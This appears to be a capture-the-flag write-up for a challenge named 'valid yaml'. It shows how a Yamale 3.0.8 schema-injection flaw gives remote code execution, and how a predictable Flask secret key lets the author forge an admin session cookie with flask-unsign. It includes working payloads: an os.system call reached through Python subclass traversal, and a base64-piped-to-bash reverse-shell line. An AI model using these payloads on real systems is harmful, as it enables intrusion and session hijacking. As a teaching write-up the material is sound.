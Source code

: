 # valid yaml
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

## About the Challenge
We were given a website with a source code (You can download the source code [here](src.zip)), on this website we can validate our YAML file

![preview](images/preview.png)

The website also utilizes `Yamale 3.0.8` to validate our YAML file."

## How to Solve?
Yamale 3.0.8 is vulnerable to RCE (You can check the detail [here](https://github.com/23andMe/Yamale/issues/167))

```python
schema = yamale.make_schema(content="""
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo 'test' > test") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
""")

# Create a Data object
data = yamale.make_data(content="""
name: Bill
age: 200
height: 6.2
awesome: True
""")

# Validate data against the schema. Throws a ValueError if data is invalid.
yamale.validate(schema, data)
```

But we can't exploit this vulnerability immediately because we can only control the data object, not the schema. However, if we check the source code, when logged in as an admin, we can create/edit our own schema.

```python
@app.route("/admin/schemas", methods=["GET", "POST"])
@authed_only
def schemas():
    if request.method == "GET":
        schemas = Schemas.query.all()
        return render_template("schemas.html", schemas=schemas)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema = Schemas(name=name, content=content)
        db.session.add(schema)
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))


@app.route("/admin/schemas/<int:schema_id>", methods=["GET", "POST"])
@authed_only
def schema(schema_id):
    schema = Schemas.query.filter_by(id=schema_id).first_or_404()
    if request.method == "GET":
        return render_template("schema.html", schema=schema)
    elif request.method == "POST":
        name = request.form["name"]
        content = request.form["content"]
        schema.name = name
        schema.content = content
        db.session.commit()
        return redirect(url_for("schema", schema_id=schema.id))
```

To logged in as an admin, we can manipulate the cookie because of the app secret key is predictable

```python
class Config(object):
    SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()
    BOOTSTRAP_SERVE_LOCAL = True
    SQLALCHEMY_DATABASE_URI = "sqlite:///app.db"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
```

Note when you deploy the website, then you will know the secret key. And then use `flask-unsign` command to create the cookie, here is the payload I used to login as an admin

```bash
flask-unsign --sign --cookie '{"id": 1}' --secret 'cb9a2657b00b63983cf7217b268855eb'
```

![loggedin](images/loggedin.png)

Use the public proof of concept to perform Remote Code Execution (RCE). Here is the schema I used to do a reverse shell.

```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("echo AAAAAAAAAAA== | base64 -d | bash") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```

![flag](images/flag.png)

```
flag{not_even_apache_can_stop_the_mighty_eval}
```